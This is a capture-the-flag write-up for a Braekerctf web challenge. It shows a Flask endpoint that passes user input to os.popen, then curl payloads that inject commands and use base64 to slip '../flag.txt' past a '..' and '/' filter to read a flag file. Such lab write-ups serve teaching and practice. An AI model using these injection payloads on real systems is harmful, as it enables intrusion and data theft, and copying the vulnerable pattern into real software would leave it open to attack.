# description
This challenge is a web challenge written by spipm and part of the Braekerctf ctf. This challenge is a basic command injection with `..` and `/` bypass. Good reading

# recon
```python
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':

    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')

    # Run server
    app.run(host='0.0.0.0', port=80)
```

Let's dive into the code. This Python application, built with Flask, expects POST requests on the `/run_command` endpoint with JSON parameters containing a command value. The code then checks if the length of the command string is greater than 5. It also verifies that there are no `..` or `/` characters in the command. Lastly, it checks if the first word of the command returns True with `os.access(<first_word>, os.X_OK)`.

It then executes the command and sends us the result. Thus, the command's length must be greater than 5, it must not contain `..` or `/`, and the first word must return True for `os.access(<first_word>, os.X_OK)`.

Let's look at the documentation for the `os.access()` command:
```
The `os.access()` command in Python is used to check if a file or directory is accessible according to a certain access mode.
```
It checks if a given path can be executed.
```bash
> ls -la

total 8
drwxr-xr-x 2 tahdjao tahdjao 4096 29 févr. 11:54 .
drwxr-xr-x 3 tahdjao tahdjao 4096 29 févr. 12:07 ..
```
Here we can see that the path `.` can be executed. So, we can execute our first command.

```bash
curl -X POST -H "Content-Type: application/json"  http://172.17.0.2/run_command -d '{"command": ". ; ls -a "}'

{"message":"Command output: .\n..\n"}
```

There's nothing in this directory; the flag is in the parent directory. However, we can't use `..` or `/` to navigate there. We can bypass this verification using base64.

```bash
> echo '../flag.txt' | base64

Li4vZmxhZy50eHQK


>  curl -X POST -H "Content-Type: application/json"  http://172.17.0.2/run_command -d '{"command": ". ; cat `echo Li4vZmxhZy50eHQK | base64 -d` "}'

{"message":"Command output: brck{not_the_flag}"}
```

And there's the FLAG.